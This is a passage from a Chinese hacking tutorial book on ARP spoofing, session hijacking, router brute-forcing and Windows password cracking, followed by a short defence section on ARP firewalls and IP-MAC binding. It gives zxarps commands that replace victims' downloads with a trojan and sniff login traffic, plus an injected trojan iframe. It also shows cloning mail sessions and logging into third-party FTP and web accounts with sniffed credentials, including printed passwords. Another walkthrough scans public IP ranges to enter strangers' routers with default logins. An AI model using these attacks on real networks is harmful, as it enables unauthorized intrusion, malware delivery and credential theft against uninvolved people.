

图 74

当执行后，无论对方访问什么网站，比如：www.163.com，出现的页面将会只是一句英文："hack by Black Mask"！我们在 pcshare 客户端上抓屏看看，如图 76。



图 75

虽然这个命令十分的好玩，但是希望大家别过份了。

#### 2.3.2.3 欺骗主机实现替换下载

替换下载，顾名思义就是当被欺骗主机下载一些以 exe、rar、zip 等为扩展名的文件时，我们将它替换成事先准备的木马文件，从而达到让对方自己运行我们木马的目的。

输入命令:zxarps.exe-idx 0-ip 192.168.3.1-192.168.3.102-spoofmode 3-postfix ".exe,.rar,.zip"-hackurl http://192.168.3.100/-filename 123.exe，执行效果如图 77。

此时已经替换成功了，123.exe 已经躺在 192.168.3.102 的桌面上了，如图 78。







图 68

图 70

图 69

```
E:\ARP 嗅探和监听\zxarps 主>Zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 80,21 -logfilter "+POST,+username,+password|_USER ,_PASS" -save_a sniff2.log
0. Intel(R) 82562GT 10/100 Network Connection <Microsoft's Packet Scheduler>
IP Address. . . . . . . . . . . . : 192.168.3.100
Physical Address. . . . . . . . . : 00-1A-4B-6E-DD-80
Default Gateway . . . . . . . . . : 192.168.3.1
[*] Bind on 192.168.3.100 Intel(R) 82562GT 10/100 Network Connection <Microsoft's Packet Scheduler> ...
Scanning Alive Host......
Found Alive Host:
1: 192.168.3.1 00-E0-4C-37-54-8F
2: 192.168.3.102 00-30-18-B1-D5-DD
Sniffing......
第 992 个数据包写入到文件
Ctrl+C Is Pressed.
Killing the SpoofThread......
Restoring the ARPTable......
Bye!
E:\ARP 嗅探和监听\zxarps 主>
```

## 2.4 无 ARP 欺骗嗅探技术

> 无 ARP 欺骗嗅探其实就是对 MAC 地址和端口进行欺骗。大家都知道，交换机有一个自动更新学习的功能，当交换机的一个端口收到一个数据帧时，首先检查该数据帧的目的 MAC 地址在自己 MAC 地址表 (CAM) 中对应的端口。如果目的端口与源端口不为同一个端口，则把帧从目的端口转发出去，同时更新 MAC 地址表中源端口与源 MAC 的对应关系。正因为它的这个特性，才能达到无 ARP 欺骗嗅探的目的。

### 2.4.1 Switch Session Clone——利用 mac+port 欺骗方式实现 sniffer

SSClone 是一款在交换环境下无 arp 欺骗的会话复制软件，利用 mac+port 欺骗方式实现各种邮件登录的会话 sniffer。该软件通过过滤 url 中的 cookie 信息，复制出相同的会话，适用于任何 http 协议，并且可以成功的穿过各种反 arp 工具。

打开"SSClone"，界面是英文版的，看上去像一个浏览器，其实它就是一个浏览器，只不过比普通的浏览多一些功能而已，如图 79。


在开始 mac+port 欺骗时，我们还需简单设置一下软件。在右边的"Control panel"控制面板里，通过"Adapter"下拉菜单选择你的工作网卡，下面的各个信息就会自动根据当前网卡的信息进行载入：

```
Subnet:192.168.3.100/24;
Gateip:192.168.3.1;
Gatemac:00E04C37548F;
Localip:192.168.3.100;
Localmac:001A4B6EDD8A;
```

Resume(即嗅探模式)，提供两种选择：

- 1. active 模式建议小于 5 台主机的小型网络和测试使用
- 2. 大于 5 台主机可使用 passivity 模式。

两种模式的主要区别就是:passive 模式在劫持到数据之后不主动恢复链路，网络会自动恢复，这样可以减少本机的发包量以免造成网络堵塞。

Packet/s，此参数为发包率，设置越大，监听到的信息越多，同时也会造成网络流量的增加。我们不用去设置，因为在一次会话过程中会有很多次的请求，只要截获其中的一次请求数据，就可获得被劫持者的身份。

Proxy Host，也可不设置，如果选择 Proxy Host 可进一步提高隐藏性 (本功能为高级功能，即使不选，现在的工具也无法监控到)。只要点击 Scan 按钮，扫描出网络中的主机，然后选择相应的主机，即可成功设置 proxy。

## 第二章 网络嗅探与 ARP 欺骗

Use Pcap，在程序的右下角有个 api mode，通过双击可以修改为 pcap 模式。pcap 模式依赖选择的网卡，该模式可将 session 设置到外部浏览器。推荐使用默认的 api 模式。

设置完成后的效果如图 80，然后点击“scan”开始扫描主机，如图 81。

除路由器外，我只扫描出了一台主机 192.168.3.102，可以在“Host to Proxy”列表中选中它，这是 SSClone 的高级功能，可以提高隐藏性。最后点击“start”开始嗅探，如图 82、图 83。

现在只要在 192.168.3.102 上出现登录 mail.google、mail.sohu、mail.qq 的这些信箱，程序就会自动劫持它们的登录会话，并且复制到 SSClone 的“Domain List”中 URI 列表里，如图 84，我们看到有劫持数据进来了，但是还没有劫持到 cookies。

再等一会儿，好，终于劫持到 cookies 了，双击左边 URI 列表的地址，就可以成功进入它的邮箱了，如图 85。现在随便打开一封信就可以进行阅读了，如图 86。

但是利用劫持到的 QQ 邮件信息无法登录，不过我们可以得知它的账号：xtaflf0348088，如图 87，也许是 QQ 邮件系统更新了的原因吧。

其实 SSClone 不仅可以劫持邮件登录会话，甚至还可以劫持 http、FTP、telnet 等的一些登录密码信息。大家有没有注意到程序里的 URLFilter，这是一个 URL 过滤器，我们可以将它理解成一个协议过滤器。只要在这个过滤框里输入我们想劫持的协议，就能达到嗅探的目的。

来设置一下 URLFilter，我在里面输入“http ftp telnet”这三项，大家可以根据需要自行定义。设置完毕就可以点击“start”按钮开始欺骗了，如图 88。

现在 SSClone 就充当着一个数据转发的平台，在它左边的 URI 里看不到任何信息，下面的“Console”中会出现一些连接。

接下我们打开本机的监听工具“Wireshark”，点击左边数过来的第二个网卡图标“show the capture options”，如图 89，来设置一下监听模式。

在弹出的“capture options”设置框中，在“interface”中选“local”，后面选择你当前工作中的网卡；接着再设置一下过滤器“capture Filter”，输入过滤规则：tcp port http，意思是说只监听 TCP 协议 HTTP 信息。其它的设置保持默认，如图 90。

最后点击“Start”按钮开始嗅探，抓到很多从 192.168.3.102 转发的 HTTP 数据，如图 91。不过要从这么一大堆的数据里找出有用的信息，就要看大家的耐心了。经过漫长的查找，我终于找到了有用信息，如图 92，出现了用户名和密码。下面将嗅探到的用户名和密码拿去登录验证一下，打开 IE 输入地址：http://203.81.26.200/ 进行访问，然后输入用户名：xtaflf@gmail.com，密码：***** ****，准备登录，如图 93。

其实在嗅探到的 HTTP 信息中可能还包括了其他的一些有用信息，只要大家用心去找，一定会有收获。我们再来设置一下过滤器“capture Filter”，输入过滤规则：tcp port ftp，开始捕获 FTP 的信息数据包，结果如图 94。我们看到数据包里包含了 FTP 用户名和密码信息，马上登录 FTP 地址：60.190.145.177，依次输入用户名：txxz，密码：share，登录成功，如图 95。

最后再来重新设置一下过滤规则，输入：tcp port telnet，开始捕获 telnet 的数据包，结果如图 96。虽然抓获了许多 telnet 的数据包，但是始终没有抓到关于用户名和密码的信息。

## 2.4.2 httphijack No ARP 欺骗的会话劫持工具

httphijackbeta2 也是一款无 ARP 欺骗的会话劫持工具，主要功能是向被劫持主机访问的网页数据中插入预定的 HTML 代码，并同时支持 ARP 方式。无 ARP 方式只能同时劫持一台主机，成功率低于 ARP 方式。

打开“httphijackbeta2”软件，在右侧“adapter”中选择当前工作的网卡，在下面的“MODE”模式中，提供了两种选择方式：

- 1、htmlInject，无 ARP 自定义插入 HTML 代码。
- 2、use ARP，开启 ARP 插入自定义代码。

这里我是测试无 ARP 方式，所以就选第一个 htmlInject 模式，如图 97。

在“html”输入你想插入的代码，比如你的马址：`<iframe src='http://192.168.3.100/index.html' width=0 height=0>`。这里我为了方便，直接用程序默认的代码：`<script>alert('Httphijack')</script>`，最后点击“scan”，扫描一下主机，找到的 IP 为 192.168.3.102，如图 98、99。

选中 192.168.3.102，最后点击“start”，开始劫持会话插入代码工作。为了让大家看到更好的效果，我在本机抓包。

打开抓包工具“WildPackets EtherPeek NX3.0”，点击“NEW Capture”创建一个新的抓包。在弹出的“Capture Options”里，点击“Filters”过滤器，选择“HTTP”，如图 100，因为我们只抓 HTTP 的包。

设置完毕点击“OK”，再点击“Start Capture”开始抓包。感觉抓得差不多了，就点击“Stop Capture”停止抓包，然后慢慢找出从 192.168.3.102 转发的数据包。

经过十几分钟的查找，终于找到了我们插入的代码：`<script>alert('Httphijack')</script>`，如图 101。

这时在 IE 中访问 192.168.3.102，出现的情况如图 102，弹出了我们代码中设置的对话框。

上面的这两个工具主要采用了 MAC+PORT 欺骗嗅探技术，但是在实际中的成功率低于 ARP 欺骗方式，不过作为一种新技术，还是非常值得我们去学习研究的。而且这种攻击目前还没有软件可以防护，唯一的办法只有采用高级的交换机，利用 ip+mac+port 绑定，控制 CAM 表的自动学习，这样才能防止无 ARP 欺骗嗅探。

## 2.5 修炼内功防范 ARP 欺骗

随着现在 ARP 欺骗技术的越来越成熟，好多病毒都结合了 ARP 欺骗功能，对局域网往往带来致命性的破坏。所以，防御 ARP 攻击也就显得更加重要了，下面笔者总结了几种比较有效的防御方法。

### 2.5.1 你攻我防之 ARP 防火墙

在电脑上安装 ARP 防火墙软件，可以很好地防止 ARP 欺骗的攻击，比如：360 ARP 防火墙、金山 ARP 防火墙、彩影 ARP 防火墙。

#### 1、彩影 ARP 防火墙

我认为彩影 ARP 防火墙可以说是 ARP 防火墙当中最好的一款了，它的功能比其它品牌的 ARP 防火墙更为强大，但是它是一款收费的 ARP 防火墙，建议有条件的朋友购买使用。安装好彩影 ARP 防火墙，运行后的界面如图 103。

现在我们再来打开 cain 进行 ARP 欺骗攻击，可以看见抓不到任何数据，如图 104，被 ARP 防火墙拦截了，如图 105。

#### 2、360 ARP 防火墙

360 ARP 防火墙是一款免费提供的 ARP 防御工具，首先要在客户机上安装 360 ARP 防火墙。安装完成后打开 ARP 防火墙，并开启 ARP 防护，如图 106。

此时点击“综合设置”按钮，查看一下是否绑定成功，如图 107。

都已经绑定好了，下面打开 cain 进行 ARP 欺骗嗅探，结果如图 108。我们再来看看 192.168.3.102 上的 360 ARP 防火墙有什么反应，如图 109。

可以看到，数据包被 360 ARP 防火墙拦截了，cain 上抓不到任何信息。

#### 3、金山 ARP 防火墙

在客户机上安装金山 ARP 防火墙，安装后运行，如图 110。

再打开 cain 进行 ARP 欺骗攻击，然后看看金山 ARP 防火墙，如图 111，报告拦截到外部攻击包。

### 2.5.2 IP 和 MAC 地址双向绑定

> 所谓 IP 和 MAC 地址双向绑定，简单地说就是在 192.168.3.102 本地主机上静态绑定局域网内所有主机的 IP 和 MAC 地址，包括路由器或网关的。同时，在路由器或网关上绑定局域网内所有主机的 IP 和 MAC 地址，从而达到双向绑定，也能很好地防止局域网内的 ARP 欺骗攻击。

首先，在 192.168.3.102 上进行 IP 和 MAC 地址的绑定。打开 CMD，输入 arp -a，查看一下 ARP 表，再通过 arp -s 进行 IP 和 MAC 地址的绑定，命令如下：

```bash
arp -s 192.168.3.1 00-e0-4c-37-54-8f
arp -s 192.168.3.100 00-1A-4B-6E-DD-8A
```

绑定完后再输入 arp -a 查看一下是否成功绑定，此时的 Type 应该是 static，这就说明绑定成功，如图 112。

由于主机重新开机后，ARP 表又会被清空，所以我们需要制作一个 BAT 文件放在启动项里，每次开机都执行。

新建一个 1.bat 文件，输入内容如下，如图 113，然后把保存后的 BAT 文件复制到启动项里就可以了。

```bat
@echo off
arp -s 192.168.3.1 00-e0-4c-37-54-8f
arp -s 192.168.3.100 00-1A-4B-6E-DD-8A
```

现在我们在本机已经成功绑定了 IP 和 MAC 地址，接下来就去路由器上绑定了。一般家庭用的路由器，可以通过 WEB 管理页面绑定 IP 和 MAC 地址，大家可以根据自己的实际情况进行操作。

由于我的路由器是 ipcop 软路由器，通过 WEB 页面不能直接绑定，所以要到它的 CMD 里去绑定，方法也是一样的。

首先连接我的 IPCOP 路由器，它是一个 Linux 内核的软路由器，所以我通过 putty 来连接。打开 putty，在“Host Name”里输入 IP 地址：192.168.3.1，在“Port”里输入端口：222，在“Protocol”协议里选“SSH”，如图 114。

最后点击“open”，连接路由器，然后再输入用户名：root，密码：******，回车，连接成功，如图 115。

接着输入命令：arp，查看一下当前 ARP 表，如图 116。

此时这 ARP 表里都是动态的 IP 和 MAC 地址，下面我们也要通过 arp -s 来绑定成静态，命令如下：

```bash
arp -s 192.168.3.100 00:1A:4B:6E:DD:8A
arp -s 192.168.3.102 00:30:18:b1:d5:dd
```

再输入命令 arp 查看一下，Flags 由 M 变成 CM 了，说明已经绑定成功，如图 117。再来打开 cain 进行 ARP 欺骗攻击，发现此时已经抓不到数据了，如图 118。

## 2.6 小结

相信大家通过对本章的学习，已经能够很好地认识到黑客是如何通过 ARP 欺骗攻击去嗅探其他用户的密码信息，以及 ARP 攻击在局域网中的可怕性。

在本章的最后，笔者也给了防护 ARP 攻击的解决办法，虽不敢说是百分之百的解决办法，不过对付一般的 ARP 攻击已经绰绰有余了。

## 第三章 密码和文件加密破解

随着计算机应用的深入，许多用户都开始利用计算机处理一些安全性要求较高的信息，这就不可避免会碰到如何保密的问题。相对而言，设置密码是运用最多、也是最方便有效的安全控制措施！另一方面，随着密码数量的增多，用户忘记密码的现象也与日俱增！在这种情况下，如何解除所设置的密码，才是当务之急。本章将给大家带来一些常用的密码破解技巧，至于能不能破解成功，主要在于你的耐心和时间。

## 3.1 巧破本地 Windows 密码

相信很多朋友都经历过忘记系统密码的痛苦，有时候明明记的是这个密码，但就是登录不了系统！下面，我就介绍几种破解 Windows 系统密码的方法。

### 3.1.1 Ntpass 本地破解 XP 密码

Ntpass 是一个专门清除 Win XP/2000 登录密码的软件，不过要重启后引导进 DOS 才能运行破解。

这个软件在很多 GHOST 版的 XP 光盘中都有，这里以我虚拟机中的 XP 系统为例，比如我们将密码忘记了，无法进入系统，如图 1。

现在重启系统（这里都是以虚拟机里的系统为例，下同），进入 CMOS 设置第一启动设备为光驱，如图 2，然后按 F10 保存设置并退出。

按照虚拟机软件的设置在物理光驱插入 GHOST 版光盘或读取硬盘里的 GHOST 版光盘 ISO 镜像，启动虚拟机，系统进入光驱引导，显示出 GHOST 版 XP 的选择界面，如图 3。

从图 3 中可以看到一个“系统登录密码破解（2K/XP/2003）”的选项，这个就是 ntpass 程序了。我们选中它，或按 8 进入 ntpass 程序，如图 4。

这里有 3 个选项：

- 1、表示选择 SAM 文件所在的分区；
- 2、在本地所有磁盘搜索 SAM 文件；
- 3、退出。

我想稍微有些计算机常识的人都知道 SAM 文件是在 C 盘吧？所以我们就选 1（当然，选 2 也是可以的），进入磁盘选择界面，如图 5。

这里程序会自动将 C、D、E 等盘符命名为 0、1、2 等，以此类推。我选择 0，代表 C 盘，回车后程序开始在 C 盘里搜索 SAM，速度非常快，1-2 秒钟就可以找到，如图 6。

由于只找到一个 SAM 文件，所以我们直接回车进入下一个界面，如图 7。

从图 7 可以看到，显示出了我们系统中的所有用户。

## 第三章 密码和文件加密破解

用户名。我选中要清除密码的用户，比如 administrator 管理员用户，选 0，再回车，按一下 Y，就可以成功清除 administrator 的密码了，如图 8。

重启进入系统，我们可以看到，已经不需要输入密码了，如图 9。

### 3.1.2 替换屏保程序破解 XP 密码

这个方法依然要从 DOS 里执行，所以我们还是用 GHOST 版 XP 进行引导，然后选择“DOS 增强版及工具合集”，如图 10，进入后的界面如图 11。


由于现在的 C 盘是 NTFS 格式，DOS7.1 认不了，所以我们还要需要运行一个可以读取 NTFS 分区的工具。正好这个光盘自带了这个工具 NTFS4DOS，我们输入命令：ntfs4dos，回车执行后的信息如图 12。


接着我们要进入 c:\windows\system32 下。我们可以看到，找到两个 NTFS 的磁盘，E盘和F盘。E盘就是系统的C盘，我们切换到E:\windows\system32，输入命令：cd windows\system32，回车执行后的效果如图13。


接着要把c:\windows\system32\logon.scr替换为cmd.exe，先来改名备份一下。输入执行命令：ren logon.scr logon.bak，再执行命令：ren cmd.exe logon.scr，如图14。


然后启动屏保并设置时间，只要时间一到，系统就会去运行logon.scr这个屏保。由于你替换了这个屏保文件，所以实际上运行的是cmd.exe，并且是LocalSystem权限的，如图15。

于是你就可以通过在cmd.exe里执行命令：net user administrator ""来成功清空管理员密码，如图16。


### 3.1.3 替换 SAM 文件破解 XP 密码

熟悉 Windows XP 操作系统的朋友都知道，它的账户和密码信息都是保存在 C:\windows\system32\config 目录下的 SAM 文件当中，所以我们可以通过替换这个文件来实现暴力破解 Windows XP 操作系统的密码。


在网上有一些文章提到可以直接删除这个 SAM 文件，但在 XP 操作系统下，删除这个文件后就没法启动操作系统了，在登录界面会报错，这个方法只适用于 Windows 2000。其实有一种很简单的方法，但前提是找到一台已经安装有 Windows XP 操作系统的机器，把这台机器上的 SAM 文件复制到需要破解系统的机器中即可，如图 17。


复制完毕后再重启系统，可以看到，不需要输入密码了，如图 18。

### 3.1.4 巧用 Ophcrack 破解 XP 密码

Ophcrack 破解器的破解速度简直是不可思议，到底有多快呢？它能在 160 秒内破解 14 位数字 + 英文大小写的密码。它的速度主要取决于你的彩虹表，随着彩虹表容量的增大，它的破解能力也就越强。Ophcrack 破解器和彩虹表下载可以到这个网站：http://ophcrack.sourceforge.net/。

我们现在来安装 Ophcrack，运行 ophcrack-win32-installer-3.1.0.exe 后来到这一步时不要选，如图19。


然后单击“NEXT”进入安装目录设置界面，如图20，直到安装完成。

安装完Ophcrack破解器，接着就是下载彩虹表了。用IE访问http://ophcrack.sourceforge.Net/tables.php，如图21。


可以看到，这里有不同容量的，适用于各种操作系统的彩虹表。由于我要破解XP系统，这里就下载380M的XP彩虹表。如果你要破解更复杂的密码，可以下载后面上G容量的彩虹表。听说网上还有最大达到500G的彩虹表，不过对于一般用户，我想380M的彩虹表已经足够了。

把彩虹表下载完后，我们打开Ophcrack来加载彩虹表，Ophcrack主界面如图22。


接着将下载的彩虹表解压，重命名为tables1（名字随便，只要是英文和数字的都可以），点击“tables”弹出界面如图23。

选中“XP free small”，再点击“install”添加彩虹表，如图24。添加成功后如图25，注意：彩虹表的路径不能是中文路径！

最后按OK，回到主界面。下面开始破解SAM文件，这里我们还要面临一个问题，因为 XP 系统在运行过程中是不允许 COPY 系统的 SAM 和 system 文件的，所以我们要通过 WinHex 内存工具来复制。


打开“WinHex”，点击“打开磁盘”，如图 26。


选择系统盘 C 盘，然后“确定”即可，如图 27。

现在 WinHex 开始加载 C 盘到内存，如图 28。

我们再打开 c:\windows\system32\config，按 Ctrl 选中 SAM 和 system 文件，右击“恢复/复制”到桌面上的 Ferret 文件夹，如图 29、图 30。


这个保存的文件夹可以自己随便选择，接下来再回到 ophcrack 主界面，点击“load”，选择“Encrypted SAM”，如图 31。在弹出的添加文件窗口中选中 Ferret 文件夹，程序将 SAM 文件里的 hash 自动导入，如图 32。


这里包括系统里的所有用户名，我们删除掉不想破解的用户，选中按 delete 即可。剩下的这个 root 用户就是我们想破解的，当然，也可以破解 administrator 用户或全部的用户。删除不需要破解的用户后，点“Crack”按钮就开始破解了。可以看到，一瞬间密码就被破解出来了，如图 33。


## 3.2 破解路由器之一马平川

路由器现在成为很多家庭必备的网络设备之一，由于第一次设置后一般不需要再次更改，所以久而久之很容易把路由器的登录密码给忘掉。下面我提供几个破解路由器的方法，供大家参考。

### 3.2.1 WebCrack 破解路由器密码

Webcrack 其实是一个网页密码破解工具，但往往许多人用它来破解路由器 WEB 登录密码，而且效果还非常不错。

打开“Webcrack 4.0”，其界面如图34。可以看到，破解路由器密码需要用户名列表和密码字典。

首先，我们来创建一个用户名列表。一般路由器的用户名都是 admin、root、adsl 等，可以新建一个 1.txt 文本文件，将这几个用户添加进去，如图35。


接着再来生成一个密码字典，可以通过密码字典工具来生成。我选用的是“易优超级字典生成器”，点击“基本字符”标签项，并选择所有小写字母，如图36。


然后点击“生成字典”标签项，再点击“浏览”，设置字典的保存目录及位数，最后点“生成字典”即可，如图37。


我这里只是选生成5位的字典，生成后有79M。可想而知，生成的位数越多，这个字典的容量就会越大。我们再回到Webcrack主界面，选择用户名文件为我们新建的1.txt文件；再选择密码字典为我们刚才生成的字典文件；然后在URL中输入登录的IP：http://60.176.105.24/，如图38。


最后单击“开始”，程序就自动开始破解了。等上10-20分钟，结果就出来了，如图39。

破解了老半天，原来密码是默认的admin，赶紧打开验证一下吧，如图40，成功进入。

#### 3.2.2 东凌ADSL密码终结者破解路由器密码

东凌ADSL密码终结者可以多线程远程扫描，并强力搜索使用默认账号密码的ADSL路由器，自动破解拨号上网账号和密码，也能够自己添加字典破解路由器密码。这里我们只介绍如何扫描路由器，并破解账户和密码。

打开“东凌ADSL密码终结者”，如图41，在“扫描选项”里可以设置开始IP地址和结束IP地址，也可以通过“工具”标签项里的功能来查找各地对应的IP地址。


点击“工具”标签项，在查询字段处输入：江苏，再点击“查询”就能列出江苏的所有IP地址，如图42。


随便选择几个比较大的IP段，双击就可以添加到扫描列表里面了，如图43。

添加完IP列表后，点击“扫描”，再点击“开始”，程序就会自动扫描IP段里的路由器默认账号和密码。经过一段时间的扫描，我们找到两条信息，如图44。

选择其中一个按鼠标右键，单击“进入管理页”，如图45。

在弹出的对话框里输入用户名:admin，密码:admin，登录成功，如图46。

我们可以看到，这不是一台普通的路由器，而是价格上万的Cisco 2950路由器！怎么这种级别的路由器也会存在弱口令呢？可想而知这个管理员是多么的不负责。


#### 3.2.3 Linksys Brute force 破解路由器密码

